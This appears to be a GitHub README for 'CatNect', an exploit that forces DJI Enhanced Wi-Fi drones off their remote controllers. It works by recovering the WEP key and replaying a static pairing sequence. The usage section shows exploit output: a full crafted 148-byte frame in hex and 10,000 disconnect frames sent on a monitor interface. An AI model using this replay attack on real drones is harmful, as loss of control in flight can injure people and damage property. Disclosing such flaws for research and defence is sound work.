

# DJI Enhanced Wi-Fi Replay-Based Disconnect Attack
## Overview

Several DJI consumer drones, including DJI Mavic Mini, Spark, and Mini SE, use DJI’s proprietary Enhanced Wi-Fi transmission protocol for communication between the aircraft and its remote controller (RC). This protocol relies on WEP encryption, which is cryptographically weak and vulnerable to passive key recovery attacks (e.g., PTW).

Once the WEP key is recovered, an attacker within wireless range can inject crafted IEEE 802.11 frames into the drone–RC communication channel, enabling replay-based attacks that results in a forced disconnection.

## Affected Models
* DJI Mavic Mini
* DJI Spark
* DJI Mini SE
* Other DJI drones using Enhanced Wi-Fi with WEP encryption (not exhaustively tested)

## Details
During analysis of the Enhanced Wi-Fi pairing process, a static pairing byte sequence was identified. This sequence is not device-unique and can be reused across other DJI drones using the same protocol. When decrypted, the sequence can be re-encrypted and replayed to forcibly terminate the connection between a drone and its legitimate remote controller.



## Impact
* __Denial of Service (DoS):__ Loss of control and telemetry between drone and RC
* __Unauthenticated:__ No prior pairing or authentication required beyond possession of the WEP key
* __Flight-state independent:__ Works while the drone is on the ground or airborne
* __Persistent:__ The drone remains disabled as long as the replayed frames continue to be broadcasted.

## Usage

```
$ ./exploit
/*******************************************************
 *                 DJI - CatNect
 *
 *                     /\_/\
 *                    ( ･ω･ )
 *                    /つ♡ ⊂\
 *                   (  / \\ )
 *
 *        Taking down drones with love <3
 *******************************************************/
final_packet (148 bytes):
000010002c0000000c007109c020ee000840000034d262296fc234d262296c1c38d262296fc2100000000100ae5c169c6db829e6251e7fb4148e07023639fda167d4000844259c5cb6acff85730e8ce27a01841bad02d0f0fb8dc6ff2aa2b0caa62acc44ba1fbedb8881ad10d00ceae89befb63b312fc6357727757391a8aed3ca5cb90279bfb2e8aa9c0fa121255d4b229698c2
Press ENTER to launch attack (send 10000 frames on mon0)...

[*] Sending 10000 disconnect frames on mon0...
[*] Done sending disconnect frames.
```

## Video

## Legal & Ethical Notice
This project is provided strictly for __educational and defensive security research purposes__.
Do not test against drones that you do not own or have explicit permission to assess.

The author assumes no responsibility for misuse of this code.
